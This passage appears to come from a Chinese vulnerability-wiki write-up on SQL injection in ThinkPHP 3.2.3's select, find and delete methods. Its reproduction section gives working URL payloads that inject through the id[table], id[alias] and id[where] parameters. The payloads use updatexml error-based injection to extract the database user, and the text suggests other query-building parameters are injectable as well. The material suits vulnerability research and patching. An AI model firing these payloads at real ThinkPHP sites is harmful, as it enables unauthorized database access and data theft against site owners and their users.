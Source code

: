                 $this->_after_delete($data, $options);
            }
            // 返回删除记录个数
            return $result;

### 漏洞复现

针对`select()` 和`find()`方法
,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

    table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3select&find&delete注入漏洞/media/rId31.png)

而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    table: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&id[where]=1

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp3.2.3select&find&delete注入漏洞/media/rId32.png)

参考链接
--------

> <https://xz.aliyun.com/t/2629#toc-1>
